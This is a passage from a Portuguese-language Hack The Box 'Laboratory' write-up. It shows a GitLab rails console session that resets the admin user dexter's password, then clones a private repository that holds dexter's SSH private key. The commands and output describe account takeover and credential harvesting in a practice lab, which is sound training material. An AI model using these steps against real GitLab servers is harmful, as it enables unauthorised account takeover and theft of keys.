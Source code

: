 ```bash
git@git:~/gitlab-rails$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> user = User.find_by(email: "admin@example.com")
=> #<User id:1 @dexter>
irb(main):002:0> user.password = "P@ssw0rd"
=> "P@ssw0rd"
irb(main):003:0> user.password_confirmation = "P@ssw0rd"
=> "P@ssw0rd"
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: 0f18c1b4-9929-47a5-90d7-ec16a7e6f293) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa424ee0668 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> 
```

Após alterada a senha, foi possível visualizar para a conta `dexter` um repositório privado adicional chamado **SecureDocker**.

![gitlab dexter projects](https://i.imgur.com/oXJEKFR.png){: .align-center}

Já que temos acesso ao código-fonte do repositório, notado que existem alguns scripts e **chave SSH** do usuário dexter, conforme mencionado na descrição do repositório.

> CONFIDENTIAL - Secure docker configuration for homeserver. Also some personal stuff, I'll figure that out later.

Após clonar o repositório para máquina local observados os seguintes arquivos.

```bash
$ git -c http.sslVerify=false clone http://git.laboratory.htb/dexter/securedocker.git  
Cloning into 'securedocker'...
Username for 'https://git.laboratory.htb': dexter
Password for 'https://dexter@git.laboratory.htb': 
warning: redirecting to https://git.laboratory.htb/dexter/securedocker.git/
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
```

```bash
$ tree -a -I '.git'
.
├── create_gitlab.sh
├── dexter
│   ├── recipe.url
│   ├── .ssh
│   │   ├── authorized_keys
│   │   └── id_rsa
│   └── todo.txt
└── README.md

2 directories, 6 files
```
